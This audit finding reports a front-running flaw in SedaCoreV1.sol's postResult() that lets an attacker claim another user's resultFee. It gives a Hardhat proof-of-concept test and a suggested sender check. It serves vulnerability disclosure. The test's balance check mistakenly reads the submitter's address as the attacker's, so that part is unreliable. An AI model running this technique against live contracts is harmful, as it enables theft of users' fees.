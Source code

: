 Restless Daisy Terrier

High

# [H-1] Front running of SedaCoreV1.sol#postResult() allows an attacker to steal resultFee funds

#### Severity: High

    Impact: High

    Likelihood: Medium

## Description

The contract deployed on the chain with a public mempool prone to the front run attack. A malicious user can send a transaction with more priority to call the function `SedaCoreV1.sol#postResult()` with the same arguments as it was initiated by a normal user and to steal funds with the amount `requestDetails.resultFee`.

https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/core/SedaCoreV1.sol#L173-L176

```solidity
    function postResult(
        SedaDataTypes.Result calldata result,
        uint64 batchHeight,
        bytes32[] calldata proof
    ) public payable override(ResultHandlerBase, IResultHandler) whenNotPaused returns (

    // ...........

        if (requestDetails.resultFee > 0) {
            _transferFee(msg.sender, requestDetails.resultFee);
            emit FeeDistributed(result.drId, msg.sender, requestDetails.resultFee, ISedaCore.FeeType.RESULT);
        }
```

## Impact

The vulnerability allows the attacker to steal fee funds. But it is possible that gas costs would be higher then the stolen fee in reality, therefore likelihood is medium.

## Proof of Concepts

```typescript
      it('front run attack', async () => {
        const { core, data } = await loadFixture(deployCoreFixture);
        const resultFee = ethers.parseEther('2.0');
        const [, resultSubmitter, attacker] = await ethers.getSigners();

        const attackerBalanceBefore = await ethers.provider.getBalance(resultSubmitter.address);

        await core.postRequest(data.requests[0], 0, resultFee, 0, { value: resultFee });

        await expect((core.connect(attacker) as SedaCoreV1).postResult(data.results[0], 0, data.proofs[0]))
          .to.emit(core, 'FeeDistributed')
          .withArgs(data.results[0].drId, attacker.address, resultFee, 1);

        const attackerBalanceAfter = await ethers.provider.getBalance(attacker.address);

        await expect(attackerBalanceAfter).to.be.greaterThan(attackerBalanceBefore);

        await expect((core.connect(resultSubmitter) as SedaCoreV1).postResult(data.results[0], 0, data.proofs[0]))
        .to.be.revertedWithCustomError(core, 'ResultAlreadyExists');
      });
```

## Recommended mitigation

Perhaps the solution will be to appoint the result sender and the solver (batch sender) as one person.

`contracts/core/SedaCoreV1.sol#L140`

```solidity
        (bytes32 resultId, address batchSender) = super.postResultAndGetBatchSender(result, batchHeight, proof);
  +      require(batchSender == msg.sender, "Not Authorized");
```
